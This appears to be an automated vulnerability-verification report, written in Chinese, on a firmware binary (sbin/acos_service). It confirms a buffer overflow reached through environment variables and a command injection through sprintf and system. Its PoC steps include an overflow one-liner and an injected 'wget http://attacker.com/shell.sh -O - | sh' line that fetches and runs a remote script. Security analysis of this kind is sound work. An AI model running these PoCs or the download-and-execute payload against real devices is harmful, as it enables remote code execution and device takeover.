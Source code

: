 ## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了缓冲区溢出漏洞。证据显示：函数 fcn.00015c44 使用 getenv 获取环境变量 IFNAME 和 IDLE_TIMEOUT（攻击者可控），并通过 strcat 连接到栈缓冲区（大小固定为 172 字节），无任何边界检查。多个 strcat 操作（如地址 0x00015d10）可能溢出缓冲区，覆盖返回地址。函数从 main 调用（XREF from main @ 0xbfc0），路径可达。攻击者模型为本地用户或能控制环境变量的攻击者（例如，通过 shell 调用程序）。实际影响可能导致任意代码执行，尤其是如果 acos_service 以高权限运行。PoC 步骤：攻击者可以设置环境变量为长字符串（例如，超过 100 字节）并触发函数执行，例如：`IFNAME=$(python -c 'print "A"*100') /sbin/acos_service` 或通过其他方式调用程序。此漏洞完整链为：攻击者控制环境变量 → strcat 溢出栈缓冲区 → 覆盖返回地址 → 控制执行流。

## 验证指标

- **验证时长：** 225.56 秒
- **Token 使用量：** 312620

---

## 原始信息

- **文件/目录路径：** `sbin/acos_service`
- **位置：** `acos_service:0x0001a53c fcn.0001a53c 和 0x0001a064 fcn.0001a064`
- **描述：** 命令注入漏洞存在于函数 fcn.0001a53c 中。用户控制的命令行参数通过 sprintf 构建命令字符串（格式为 'ifconfig %s del %s/%s'），然后通过 system 执行，缺少输入验证。触发条件：argc > 1 且 NVRAM 配置（如 'ipv6_proto' 匹配 'autoconfig'）满足。约束条件：无输入过滤或转义。潜在攻击：攻击者注入恶意命令（如 '`wget http://attacker.com/shell.sh -O - | sh`'），导致任意代码执行。
- **代码片段：**
  ```
  // 从污点分析提取
  0x0001a248: bl sym.imp.sprintf // 构造命令字符串 'ifconfig %s del %s/%s'
  0x0001a250: bl sym.imp.system // 执行命令，用户输入被注入
  ```
- **备注：** 攻击链完整：命令行参数通过 sprintf 和 system 执行。污点数据流从输入点到汇聚点已追踪。建议验证 NVRAM 变量的可控制性。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了命令注入漏洞。证据如下：在函数 fcn.0001a064（被 fcn.0001a53c 调用）中，地址 0x0001a248 使用 sprintf 构建命令字符串 'ifconfig %s del %s/%s'，其中参数包括用户控制的 argv[1]（来自命令行参数），随后在 0x0001a250 通过 system 执行。输入可控性：攻击者可通过命令行参数 argv[1] 注入恶意数据。路径可达性：触发条件为 argc > 1 且 NVRAM 配置（如 'ipv6_proto' 设置为 'autoconfig'），在现实条件下可通过服务调用实现（攻击者模型：已通过身份验证的本地用户或通过 web 接口间接调用）。实际影响：缺少输入验证和转义，导致任意命令执行。完整攻击链：argv[1] -> sprintf -> system，证据支持每一步。PoC 步骤：1. 设置 NVRAM 配置（如 'ipv6_proto' 为 'autoconfig'）；2. 执行 ./sbin/acos_service 'eth0; wget http://attacker.com/shell.sh -O - | sh'，其中恶意命令被注入并执行。因此，漏洞真实存在，风险高。

## 验证指标

- **验证时长：** 265.30 秒
- **Token 使用量：** 395582

---

